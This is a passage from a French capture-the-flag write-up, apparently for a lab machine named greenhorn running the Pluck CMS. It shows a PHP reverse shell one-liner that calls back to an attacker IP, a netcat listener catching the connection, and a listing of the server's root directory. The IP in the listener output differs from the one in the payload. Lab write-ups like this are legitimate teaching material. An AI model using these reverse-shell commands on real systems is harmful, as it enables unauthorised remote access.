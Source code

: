 Notre shell est donc `/usr/sbin/nologin`. Cela signifie que nous serons trop limité dans nos actions. Il faut donc essayer de changer notre shell.

Puisque pluck est un CMS codé en php, on tente de créer un deuxième reverse shell avec php pour échapper le premier:

```php
php -r '$sock=fsockopen("10.10.14.174",5555);exec("/bin/bash -i <&3 >&3 2>&3");'
```

Il ne faut pas oublier de démarrer netcat sur notre machine:

```bash
nc -lvnp 5555
```

La connexion est établie:

```bash
listening on [any] 5555 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.25] 41880
bash: cannot set terminal process group (1114): Inappropriate ioctl for device
bash: no job control in this shell
www-data@greenhorn:~/html/pluck$
```

Une fois la connexion établie, on tente de naviguer dans le serveur avec le nouveau shell:

```bash
www-data@greenhorn:~/html/pluck$ cd /
cd /
www-data@greenhorn:/$ ls -la
ls -la
total 76
drwxr-xr-x  20 root root  4096 Jun 20 07:06 .
drwxr-xr-x  20 root root  4096 Jun 20 07:06 ..
lrwxrwxrwx   1 root root     7 Feb 16 18:37 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Jul 15 05:51 boot
dr-xr-xr-x   2 root root  4096 Jun 20 06:36 cdrom
drwxr-xr-x   2 root root  4096 Jun 20 06:36 data
drwxr-xr-x  20 root root  4020 Jul 25 02:41 dev
drwxr-xr-x 107 root root  4096 Jul 15 05:42 etc
drwxr-xr-x   4 root root  4096 Jun 20 06:36 home
lrwxrwxrwx   1 root root     7 Feb 16 18:37 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Feb 16 18:37 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Feb 16 18:37 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Feb 16 18:37 libx32 -> usr/libx32
drwx------   2 root root 16384 Apr 10 23:33 lost+found
drwxr-xr-x   2 root root  4096 Jun 20 06:36 media
drwxr-xr-x   2 root root  4096 Jun 20 06:36 mnt
drwxr-xr-x   2 root root  4096 Jun 20 06:36 opt
dr-xr-xr-x 292 root root     0 Jul 25 02:41 proc
drwx------   5 root root  4096 Jul 25 02:48 root
drwxr-xr-x  28 root root   820 Jul 25 03:03 run
lrwxrwxrwx   1 root root     8 Feb 16 18:37 sbin -> usr/sbin
drwxr-xr-x   2 root root  4096 Jun 20 06:36 srv
dr-xr-xr-x  13 root root     0 Jul 25 02:41 sys
drwxrwxrwt  12 root root  4096 Jul 25 02:55 tmp
drwxr-xr-x  14 root root  4096 Jun 20 06:36 usr
drwxr-xr-x  13 root root  4096 Jun 20 06:36 var
```
